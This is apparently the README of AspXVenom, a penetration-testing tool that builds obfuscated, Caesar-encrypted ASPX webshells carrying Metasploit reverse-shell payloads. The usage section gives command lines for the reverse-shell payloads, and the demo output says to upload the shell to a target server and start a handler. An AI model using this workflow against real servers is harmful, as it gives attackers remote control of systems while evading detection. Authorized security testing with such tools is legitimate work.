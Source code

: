 # AspXVenom

<p align="center">
  <img src="https://img.shields.io/badge/Version-2.0-brightgreen" alt="Version">
  <img src="https://img.shields.io/badge/Language-Python%203-blue" alt="Language">
  <img src="https://img.shields.io/badge/Platform-Windows%20%7C%20Linux-orange" alt="Platform">
  <img src="https://img.shields.io/badge/License-MIT-lightgrey" alt="License">
</p>

<p align="center">
  <b>AspXVenom</b> is an advanced ASPX shellcode generator with encryption and obfuscation capabilities for penetration testing.
</p>

<p align="center">
  <a href="https://xbz0n.sh"><img src="https://img.shields.io/badge/Blog-xbz0n.sh-red" alt="Blog"></a>
</p>

---

## Overview

AspXVenom automates the process of generating encoded shellcode and embedding it into ASPX webshells, providing a smooth workflow for penetration testers during security assessments. The tool is specifically designed for testing ASPX-enabled web servers and .NET environments.

## New in Version 2.0

AspXVenom v2.0 is a complete rewrite with significant improvements:

- **Self-contained** - All templates embedded directly in a single script
- **Enhanced obfuscation** - Variable name randomization to evade detection
- **Improved encryption** - Customizable Caesar cipher keys
- **Better management** - Temporary file cleanup and improved error handling
- **More robust** - Comprehensive validation and exception handling
- **User-friendly** - Detailed logs and summary output

## Features Comparison

| Feature | v1.0 (Legacy) | v2.0 |
|---------|---------------|------|
| Required files | Multiple files (templates) | Single file |
| Encryption | Fixed key (5) | Customizable, random by default |
| Variable obfuscation | ❌ | ✅ |
| Error handling | Basic | Comprehensive |
| Temporary files | Persistent | Auto-cleanup |
| Logging | Limited | Detailed with verbosity control |
| Parameter validation | ❌ | ✅ |
| Randomization | ❌ | ✅ |

## Requirements

- Python 3.6+
- Metasploit Framework
- Mono (for executing .NET applications)
- mcs (Mono C# compiler)

## Installation

```bash
# Clone the repository
git clone https://github.com/xbz0n/AspXVenom.git
cd AspXVenom

# Ensure the script is executable
chmod +x aspxvenom.py
```

## Usage

### Version 2.0 (Recommended)

```bash
# Basic usage
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444

# With variable obfuscation
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --obfuscate

# With custom encryption key and verbose output
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --key 42 --verbose

# Custom payload and output directory
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/x64/shell_reverse_tcp --output-dir custom_output
```

### Legacy Version (1.0)

```bash
# Navigate to legacy directory
cd legacy

# Basic usage 
python3 aspx_shellcode_generator.py --LHOST 192.168.1.100 --LPORT 4444
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/x64/meterpreter/reverse_https |
| `--output-dir` | Directory to save generated files | output |
| `--key` | Custom encryption key (1-255) | Random |
| `--verbose`, `-v` | Enable verbose output | False |
| `--obfuscate`, `-o` | Obfuscate variable names | False |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It embeds the shellcode into a C# program that encrypts it using a Caesar cipher
3. The encrypted shellcode is embedded into an ASPX web shell template
4. The tool creates a Metasploit resource file for handling the connection

## Demo

After successful execution, you'll see a summary like this:

```
============================================================
 AspXVenom - Shellcode Generator Summary 
============================================================
LHOST: 192.168.1.100
LPORT: 4444
Payload: windows/x64/meterpreter/reverse_https
Encryption Key: 42
Variable Obfuscation: Enabled

Generated Files:
- Webshell: /path/to/output/WebShellFinal.aspx
- Metasploit RC: /path/to/output/met64.rc

Usage:
1. Upload WebShellFinal.aspx to the target server
2. Start Metasploit handler: msfconsole -r met64.rc
============================================================
```

## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The payloads generated are detected by most antivirus products
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **Ivan Spiridonov (xbz0n)** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges 
